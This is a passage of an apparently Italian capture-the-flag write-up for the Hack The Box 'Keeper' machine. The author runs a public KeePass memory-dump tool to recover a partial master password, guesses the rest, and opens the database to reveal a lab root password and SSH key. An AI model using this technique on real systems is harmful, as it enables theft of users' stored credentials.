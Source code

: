 Installiamo .NET (necessario per l'exploit) e cloniamo la repository di github contenente l'exploit.

> Per installare .NET 9 su debian, segui queste indicazioni: <https://learn.microsoft.com/en-us/dotnet/core/install/linux-debian?tabs=dotnet9>
{: .prompt-tip }

```shell
┌─[dua2z3rr@parrot]─[~/Boxes/keeper]
└──╼ $git clone https://github.com/vdohney/keepass-password-dumper.git
Cloning into 'keepass-password-dumper'...
remote: Enumerating objects: 111, done.
remote: Counting objects: 100% (111/111), done.
remote: Compressing objects: 100% (79/79), done.
remote: Total 111 (delta 61), reused 69 (delta 28), pack-reused 0 (from 0)
Receiving objects: 100% (111/111), 200.29 KiB | 483.00 KiB/s, done.
Resolving deltas: 100% (61/61), done.
```

```shell
┌─[dua2z3rr@parrot]─[~/Boxes/keeper/keepass-password-dumper]
└──╼ $dotnet run /home/dua2z3rr/Boxes/keeper/KeePassDumpFull.dmp

<SNIP>

Password candidates (character positions):
Unknown characters are displayed as "●"
1.:	●
2.:	ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
3.:	d, 
4.:	g, 
5.:	r, 
6.:	ø, 
7.:	d, 
8.:	 , 
9.:	m, 
10.:	e, 
11.:	d, 
12.:	 , 
13.:	f, 
14.:	l, 
15.:	ø, 
16.:	d, 
17.:	e, 
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

vediamo dai puntini ● che non si sa il carattere in quella posizione. cercando online il risulato he sappiamo certamente, troviamo un dessert danese chiamato **"Rødgrød med fløde"**. Proviamo questa password sul file keypass.

```shell
┌─[dua2z3rr@parrot]─[~/Boxes/keeper]
└──╼ $kpcli --kdb=passcodes.kdbx
Provide the master password: *************************

<SNIP>

kpcli:/passcodes/Network> show -f 0

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
```